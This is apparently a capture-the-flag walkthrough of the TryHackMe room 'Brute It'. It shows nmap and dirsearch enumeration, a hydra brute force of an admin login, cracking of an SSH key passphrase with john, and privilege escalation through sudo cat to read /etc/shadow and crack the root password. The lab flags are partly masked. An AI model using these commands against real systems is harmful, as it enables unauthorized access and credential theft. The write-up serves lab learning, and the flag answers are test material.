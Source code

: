 # Brute It

start with nmap scan 
```bash
 # sudo nmap -A -T4 10.10.155.182 

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
│| ssh-hostkey: 
│|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
│|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
│|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)

│80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
│|_http-title: Apache2 Ubuntu Default Page: It works
│|_http-server-header: Apache/2.4.29 (Ubuntu)


```


we found that it is default apache server 
![apache](https://user-images.githubusercontent.com/63524369/152644692-4e8febcc-29e8-4c10-961f-128ec55275a3.png)


!run Dirsearch on it 

```bash 
# dirsearch -u http://10.10.155.182                                       ✔ 
 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.155.182/_22-02-05_07-36-05.txt

Error Log: /root/.dirsearch/logs/errors-22-02-05_07-36-05.log

Target: http://10.10.155.182/

[07:36:05] Starting: 
[07:36:15] 403 -  278B  - /.ht_wsr.txt
[07:36:15] 403 -  278B  - /.htaccess.orig
[07:36:15] 403 -  278B  - /.htaccess.bak1
[07:36:15] 403 -  278B  - /.htaccess.sample
[07:36:15] 403 -  278B  - /.htaccess_orig
[07:36:15] 403 -  278B  - /.htaccess.save
[07:36:15] 403 -  278B  - /.htaccess_sc
[07:36:15] 403 -  278B  - /.htaccess_extra
[07:36:16] 403 -  278B  - /.htaccessOLD
[07:36:16] 403 -  278B  - /.htaccessOLD2
[07:36:16] 403 -  278B  - /.htm
[07:36:16] 403 -  278B  - /.htaccessBAK
[07:36:16] 403 -  278B  - /.html
[07:36:16] 403 -  278B  - /.htpasswds
[07:36:16] 403 -  278B  - /.httr-oauth
[07:36:16] 403 -  278B  - /.htpasswd_test
[07:36:17] 403 -  278B  - /.php
[07:36:38] 301 -  314B  - /admin  ->  http://10.10.155.182/admin/
[07:36:39] 200 -  671B  - /admin/
[07:36:39] 200 -  671B  - /admin/?/login
[07:36:40] 403 -  278B  - /admin/.htaccess
[07:36:40] 200 -  671B  - /admin/index.php
[07:37:12] 200 -   11KB - /index.html
[07:37:34] 403 -  278B  - /server-status/
[07:37:34] 403 -  278B  - /server-status

Task Completed


```

go to ``/admin`` found that it is login page 

![admin](https://user-images.githubusercontent.com/63524369/152644712-e94dc9a8-a340-42b7-a9ce-fdf002441226.png)



brute force the login page with hydra 

```bash 

# hydra -l admin -P ~/Documents/rockyou.txt  10.10.155.182  http-post-form  "/admin:user=^USER^&pass=^PASS^:Username or password invalid:H=Cookie: security=low; PHPSESSID=vosjjgc9n7s1ckho0vq3r0js4a" 
[admin:xa%%%%]
```
we found RSA key --> ssh2john it 
```bash
# john hash.txt -wordlist=~/Documents/rockyou.txt  

ro%%%%%%       (id_rsa)

```
now lets connect to ssh with the key 
```bash

# chmod 600 id_rsa
# ssh john@10.10.155.182 -i id_rsa 

```
connect to ssh 
```bash
john@bruteit:~$ ls 
user.txt 

john@bruteit:~$ cat user.txt


```

Privesc 
```bash
john@bruteit:~$ ls -la
total 40
drwxr-xr-x 5 john john 4096 Sep 30  2020 .
drwxr-xr-x 4 root root 4096 Aug 28  2020 ..
-rw------- 1 john john  394 Sep 30  2020 .bash_history
-rw-r--r-- 1 john john  220 Aug 16  2020 .bash_logout
-rw-r--r-- 1 john john 3771 Aug 16  2020 .bashrc
drwx------ 2 john john 4096 Aug 16  2020 .cache
drwx------ 3 john john 4096 Aug 16  2020 .gnupg
-rw-r--r-- 1 john john  807 Aug 16  2020 .profile
drwx------ 2 john john 4096 Aug 16  2020 .ssh
-rw-r--r-- 1 john john    0 Aug 16  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root root   33 Aug 16  2020 user.txt



```

If ``.sudo_as_admin_successful``  found in the user home dir that mean that user can or run programs or service as root before
so we can check by running 
```bash
sudo -l 

Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat

```

use gtfobins to search for ```/bin/cat ```

we found sudo option 

```bash 

# sudo cat "$LFILE"
# sudo  cat /root/root.txt

```

now to find the password for the root user or any user in the machine
```bash 

# sudo cat /etc/shadow 
# sudo cat /etc/passwd

1. copy them to your machine 
2. unshadow passwd.txt shadow.txt > password.txt  
3. john password.txt -wordlist=rockyou.txt

{fo%%%%%%       (root)}
```




Flags 

```
UserFlag : THM{brut3%%%%%%%}
RootFlag : THM{pr1v%%%%%%%%}
```

